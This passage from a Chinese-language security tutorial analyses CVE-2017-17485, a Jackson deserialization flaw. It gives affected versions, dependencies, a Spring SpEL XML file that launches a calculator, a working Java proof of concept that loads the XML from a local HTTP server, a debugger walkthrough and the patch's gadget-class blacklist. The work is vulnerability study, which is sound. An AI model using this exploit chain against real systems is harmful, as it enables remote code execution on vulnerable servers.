at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer.deserializeTypedFromAny(AsArrayTypeDeserializer.java:68)
at com.fasterxml.jackson.databind.deser.std.UntypedObjectDeserializer$Vanilla.deserializeWithType(UntypedObjectDeserializer.java:554)
at com.fasterxml.jackson.databind.deser.SettableBeanProperty.deserialize(SettableBeanProperty.java:493)
at com.fasterxml.jackson.databind.deser.impl.FieldProperty.deserializeAndSet(FieldProperty.java:101)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:260)
at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:125)
at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:3807)
at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:2797)
at SerializeChains.JacksonNativeSer.TemplatesImpl_POC.main(TemplatesImpl_POC.java:25)
```

### 修复补丁

把版本换成任意一个修复版本，我这里换成了2.7.9.1

发现增加了黑名单过滤



调试分析，在调用 `BeanDeserializerFactory.createBeanDeserializer()` 函数创建 Bean 反序列化器的时候，其中会调用 `checkIllegalTypes()` 函数提取当前类名，然后使用黑名单进行过滤

## CVE-2017-17485（基于ClassPathXmlApplicationContext利用链）

### 影响版本

Jackson 2.7系列 < 2.7.9.2

Jackson 2.8系列 < 2.8.11

Jackson 2.9系列 < 2.9.4

可直接在JDK1.8上运行。

### 依赖

```xml
<dependencies>
  <dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-databind</artifactId>
    <version>2.7.9</version>
  </dependency>
  <dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-core</artifactId>
    <version>2.7.9</version>
  </dependency>
  <dependency>
    <groupId>com.fasterxml.jackson.core</groupId>
    <artifactId>jackson-annotations</artifactId>
    <version>2.7.9</version>
  </dependency>
  <dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-io</artifactId>
    <version>1.3.2</version>
  </dependency>
  <dependency>
    <groupId>commons-codec</groupId>
    <artifactId>commons-codec</artifactId>
    <version>1.6</version>
  </dependency>
  <dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-core</artifactId>
    <version>5.0.2.RELEASE</version>
  </dependency>
  <dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-beans</artifactId>
    <version>5.0.2.RELEASE</version>
  </dependency>
  <dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-context</artifactId>
    <version>5.0.2.RELEASE</version>
  </dependency>
  <dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-expression</artifactId>
    <version>5.0.2.RELEASE</version>
  </dependency>
  <dependency>
    <groupId>commons-logging</groupId>
    <artifactId>commons-logging</artifactId>
    <version>1.2</version>
  </dependency>
</dependencies>
```

这个漏洞需要用到Spring的Spel表达式

先写一个spel.xml

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    
    <bean id="pb" class="java.lang.ProcessBuilder">
    <constructor-arg value="calc" />
    <property name="whatever" value="#{ pb.start() }"/>
    </bean>
    
</beans>
```

带空格的值的话可以写多个value

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">

    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
            <list>
                <value>open</value>
                <value>-a</value>
                <value>Calculator</value>
            </list>
        </constructor-arg>
        
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```

然后在xml所在目录起一个8000端口的http服务

### POC

```Java
package SerializeChains.JacksonSer;

import com.fasterxml.jackson.databind.ObjectMapper;

public class ClassPathXmlApplicationContext_POC {
    public static void main(String[] args) throws Exception{
        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8000/spel.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.readValue(payload, Object.class);
    }
}
```



### 代码分析

前面我们也说过，在Jackson反序列化的时候会调用到构造函数和setter方法，那这里的话其实就是利用ClassPathXmlApplicationContext类的构造函数打的

在readValue打个断点

一路来到UntypedObjectDeserializer.deserializeWithType()函数，这里会调用deserializeTypedFromAny函数去解析我们数组形式的JSON内容





前面是一些原生类型id的操作，在判断数组开头后会读取数据并定位类名，获取反序列化器后检查类型可见性再进行反序列化

一路跟进来到_deserializeOther函数



由于Token是字符串，所以会调用deserializeFromString方法来反序列化字符串内容



跟进createFromString



此时value就是我们String数组中的第二个参数，_fromStringCreator则是AnnotatedConstructor类实例，里面的`_constructor`就是我们第一个参数的类对应的构造函数



调用构造函数实例化一个对象，往下调试，会调用到ClassPathXmlApplicationContext类的构造函数

#### ClassPathXmlApplicationContext的构造函数





跟进setConfigLocations看看



将传入的xml配置路径存储到configLocations属性中

#### AbstractApplicationContext#refresh

我们跟进refresh函数



看到这里有一个invokeBeanFactoryPostProcessors函数的调用，主要是调用上下文中注册为beans的工厂处理器

跟进invokeBeanFactoryPostProcessors()函数中调用了getBeanNamesForType()函数来获取Bean名类型



进入该函数后发现调用了doGetBeanNamesForType函数



进入doGetBeanNamesForType方法



可以看到这里会调用isFactoryBean函数来判断当前beanName是否为FactoryBean，随后调用getDecoratedDefinition函数获取到bean标签中的类为java.lang.ProcessBuilder



我们跟一下isFactoryBean函数的处理逻辑

```java
	protected boolean isFactoryBean(String beanName, RootBeanDefinition mbd) {
		Class<?> beanType = predictBeanType(beanName, mbd, FactoryBean.class);
		return (beanType != null && FactoryBean.class.isAssignableFrom(beanType));
	}

```

中间过程就省略了，可以看这位师傅的文章：https://fynch3r.github.io/%E3%80%90%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E3%80%91Jackson/

一直到AbstractBeanFactory.doResolveBeanClass方法

#### AbstractBeanFactory#doResolveBeanClass

这个方法是用来重载bean类的，其中调用了evaluateBeanDefinitionString方法去执行bean类中的字符串内容



跟进evaluateBeanDefinitionString方法





可以看到其中调用了this.beanExpressionResolver.evaluate()，此时的beanExpressionResolver的值是StandardBeanExpressionResolver，我们跟进evaluate函数



expr.getValue()方法，也就是SpEL表达式执行的方法，其中sec参数是我们可以控制的内容，即由spel.xml解析得到的SpEL表达式。

到这里就分析完了，其实原理就是org.springframework.context.support.ClassPathXmlApplicationContext的构造函数存在spel注入漏洞，从而可以被利用来触发jackson反序列化漏洞

### 修复补丁

换成2.7.9.2版本之后再次运行会出现报错，内容是由于安全原因禁止了该非法类的反序列化操作，那不就是加黑名单了吗，

首先是黑名单：

```java
static {
    Set<String> s = new HashSet<String>();
    // Courtesy of [https://github.com/kantega/notsoserial]:
    // (and wrt [databind#1599])
    s.add("org.apache.commons.collections.functors.InvokerTransformer");
    s.add("org.apache.commons.collections.functors.InstantiateTransformer");
    s.add("org.apache.commons.collections4.functors.InvokerTransformer");
    s.add("org.apache.commons.collections4.functors.InstantiateTransformer");
    s.add("org.codehaus.groovy.runtime.ConvertedClosure");
    s.add("org.codehaus.groovy.runtime.MethodClosure");
    s.add("org.springframework.beans.factory.ObjectFactory");
    s.add("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
    s.add("org.apache.xalan.xsltc.trax.TemplatesImpl");
    // [databind#1680]: may or may not be problem, take no chance
    s.add("com.sun.rowset.JdbcRowSetImpl");
    // [databind#1737]; JDK provided
    s.add("java.util.logging.FileHandler");
    s.add("java.rmi.server.UnicastRemoteObject");
    // [databind#1737]; 3rd party
    //s.add("org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor"); // deprecated by [databind#1855]
    s.add("org.springframework.beans.factory.config.PropertyPathFactoryBean");
    s.add("com.mchange.v2.c3p0.JndiRefForwardingDataSource");
    s.add("com.mchange.v2.c3p0.WrapperConnectionPoolDataSource");
    // [databind#1855]: more 3rd party
    s.add("org.apache.tomcat.dbcp.dbcp2.BasicDataSource");
    s.add("com.sun.org.apache.bcel.internal.util.ClassLoader");
    DEFAULT_NO_DESER_CLASS_NAMES = Collections.unmodifiableSet(s);
}
```

然后在SubTypeValidator._validateSubType()函数中看到，先进行黑名单过滤，发现类名不在黑名单后再判断是否是以”org.springframe”开头的类名，是的话循环遍历目标类的父类是否为”AbstractPointcutAdvisor”或”AbstractApplicationContext”，是的话跳出循环然后抛出异常，所以我们的类会被过滤掉

参考文章：

https://baozongwi.xyz/p/jackson-basics/

https://infernity.top/2025/03/05/Jackson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://xz.aliyun.com/news/12412

https://fynch3r.github.io/%E3%80%90%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E3%80%91Jackson/
